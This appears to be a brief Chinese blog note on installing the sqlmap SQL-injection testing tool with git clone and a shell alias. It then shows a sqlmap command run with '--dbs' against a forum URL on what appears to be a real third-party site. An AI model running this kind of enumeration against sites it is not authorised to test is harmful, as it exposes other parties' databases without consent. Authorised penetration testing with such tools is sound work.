

首先从github上clone下sqlmap到本地

>git clone https://github.com/sqlmapproject/sqlmap.git

然后设置sqlmap命令（注意sqlmap.py选择你自己的路径）

>alias sqlmap="python2.7 /Users/xumenger/Desktop/library/sqlmap/sqlmap.py"

这样就安装成功了，接下来就可以通过sqlmap进行sql注入渗透测试了

>sqlmap -u 'http://www.pzzc.net/forum.php?mod=post&action=newthread&fid=129' --dbs

使用sqlmap可以帮助web系统检查sql注入漏洞、进行sql注入漏洞自动化测试
